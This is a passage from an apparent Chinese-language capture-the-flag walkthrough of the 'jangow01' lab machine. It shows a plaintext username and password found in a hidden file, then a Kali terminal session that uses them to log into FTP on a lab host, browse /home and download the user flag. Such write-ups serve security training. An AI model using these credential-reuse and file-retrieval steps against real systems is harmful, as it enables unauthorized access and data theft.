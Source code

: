 查看隐藏文件：

![image-20240123122343076](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401231626267.png)

发现了账号密码：`jangow01`和`abygurl69`.

## ftp登录

```shell
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.118
Connected to 192.168.56.118.
220 (vsFTPd 3.0.3)
Name (192.168.56.118:kali): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28341|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Oct 31  2021 html
226 Directory send OK.
ftp> cd /home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||14452|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Jun 10  2021 jangow01
226 Directory send OK.
ftp> cd jangow01
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||42477|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||5901|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**********************************************************|    33       31.19 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (9.66 KiB/s)
ftp> quit
221 Goodbye.
┌──(kali㉿kali)-[~]
└─$ cat user.txt              
d41d8cd98f00b204e9800998ecf8427e
```
